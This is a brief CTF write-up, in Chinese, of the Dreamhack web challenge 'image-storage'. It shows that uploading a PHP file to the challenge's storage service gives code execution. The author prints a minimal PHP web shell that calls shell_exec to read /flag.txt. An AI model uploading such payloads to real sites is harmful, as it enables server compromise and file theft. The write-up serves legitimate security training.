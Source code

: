 ```yaml
---
title: image-storage
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# image-storage

題目

> php로 작성된 파일 저장 서비스입니다.  
> 파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 /flag.txt에 있습니다.

![home](/assets/dreamhack/image-storage/image.png)

這邊可以上傳檔案

![upload](/assets/dreamhack/image-storage/image-1.png)

那就來上傳個 php 試試看

```php
<?php
echo shell_exec("cat /flag.txt");
?>
```

![flag](/assets/dreamhack/image-storage/image-3.png)

